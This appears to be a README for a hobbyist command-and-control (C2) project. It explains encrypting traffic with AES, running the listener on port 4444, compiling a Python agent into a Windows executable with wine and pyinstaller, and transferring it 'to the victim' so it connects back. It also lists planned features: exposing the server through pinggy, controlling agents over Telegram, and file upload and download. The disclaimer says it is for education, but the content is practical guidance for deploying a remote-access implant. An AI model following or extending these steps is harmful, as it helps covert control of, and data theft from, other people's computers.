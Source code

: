 # G-r00t C2 project

## Disclaimer

This Command and Control (C2) tool is developed solely for educational and research purposes. It is intended to help users understand the principles of C2 communication, cybersecurity testing, and network security in a controlled and lawful environment.

### Usage Policy

This tool is strictly for learning and authorized testing purposes only.
Unauthorized use against any system, network, or individual without explicit permission is illegal and strictly prohibited.

The author does not condone, endorse, or support any malicious activities. Misuse of this tool to target networks, systems, or devices without consent may result in legal consequences. The author and contributors assume no responsibility for any damages or legal issues caused by misuse.
Responsible Usage

By using this tool, you agree to use it responsibly and legally within the bounds of ethical hacking, training, or research in a controlled environment.

## Encryption setup

This C2 framework uses AES encryption for communication.
The first step is to generate the secrets (key and IV) and add them to the agent and sevrer python script. 
To generate the secrets you can use the provided secretsGenerator.py script. 

Once the secrets are generated you will need to add them to agent.py and server.py

## Server

The server by default lsiten to 0.0.0.0:4444.
You can change this in the variables host and port.
Once done you can just run it with python.

## Agent cross-compiling 

To crosscompile the agent for Windows I used wine. 
You can follow this guide to setup Python and pyinstaller in wine: 

https://www.makeworld.space/2021/10/linux-wine-pyinstaller.html

Once the environment in wine is setup you will need to install the requirements:

```
wine C:/path/to/python.exe -m pip install -r requirements.txt
```

To compile the agent you can run:

```
wine C:/path/to/Scripts/pyinstaller.exe --onefile --add-binary "C:/path//to/python38.dll;." --name agent agent.py
```

Once the agent is compiled, you will find the executable in the dist/ folder.  
You can now transfer it to the victim and use it by specifying the IP and PORT of the server:

```
agent.py <SERVER_IP> <SERVER_PORT>
```



## To do list:


## Integrate pinggy and Test Encrypted Communication

    Expose C2 Server with pinggy:
        Use pinggy to expose your C2 server with a public IP and port.
        Configure the agent to communicate with the public IP and port from pinggy, and test the secure (AES-encrypted) communication between the agent and server.

    Testing:
        Test the encryption and decryption functions separately to confirm they work correctly.
        Simulate command exchanges, ensuring that commands are encrypted by the server, decrypted by the agent, and that responses follow the same path securely.

## Implement Telegram as an Additional Channel

Since Telegram’s API is JSON-based, integrating it with a C agent is more complex. You could either:

    Write a separate Python/C# process to handle Telegram communication, then interface this with the C-based agent.
    Use a lightweight HTTP library in C (like libcurl) to directly communicate with Telegram’s API if you want a pure C solution, though it may involve considerable work parsing JSON responses.

Example Workflow for Telegram Integration

    Send Commands via Telegram:
        Write a simple server process (in Python or any high-level language) that takes commands via a Telegram bot.
        Have this server relay commands to your C2 server, which then relays encrypted commands to the C agent.

    Receive Responses via Telegram:
        Alternatively, for a pure C setup, use Telegram’s getUpdates endpoint via HTTP requests to poll for messages from the bot, then execute these commands in your C agent.

## Extra functionalities

Upload download files sunctionalities